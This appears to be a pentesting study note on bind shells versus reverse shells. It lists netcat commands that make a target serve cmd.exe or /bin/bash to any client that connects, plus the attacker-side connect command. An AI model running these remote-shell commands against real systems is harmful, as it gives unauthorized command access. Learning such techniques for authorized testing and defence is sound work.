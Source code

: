 
### What is a Bind Shell ?

+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

+ A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

![[Pasted image 20231018001454.png]]
- The attacker connects to the Netcat listener on target.

**Challenges of using bind shell**

1. The attacker might not be able to connect with the target at all due to security mechanisms blocking incoming connections. 
2. To establish connection, we need the target PC to have Netcat installed and a listener running on it. Netcat is not installed on Windows devices by default. If it isn't installed, we won't be able to connect. 

**Advantages of a reverse shell over bind shell**

1. In case of a reverse shell, the listener is setup on the attacker machine. The target machine instead connects to the attacker machine. 
2. Outgoing traffic from a system is rarely blocked by security mechanisms, this will help the target machine connect to the attacker without raising much suspicion. 

### How to setup a bind shell using `nc` ?

1. Send the `nc.exe` file in the `/usr/share/windows-binaries/` directory, by hosting it using `SimpleHTTPServer`.

2. In order to setup a bind shell, the target system needs to have a `nc` listener setup.\
```
nc.exe -lnvp <port> -e cmd.exe
```
- `-e` - Execute a program when a client connects to this listener. In our case, we'll be executing `cmd` to provide command shell session to the attacker. 

3. In our attacker machine, we'll be connecting to the target machine. 
```
nc -nv <target-ip> <port>
```
- This will provide us with a command shell access to the target machine.

4. We can also reverse the roles and make the Linux machine our target by setting up a listener and executing a bash shell session. 
```
nc -lnvp <port> -c /bin/bash
```
- `-c` - This option is for executing programs in Linux systems.

5. Now we can use our Windows machine as the attacker machine and connect to the IP address of the target i.e the Linux machine. 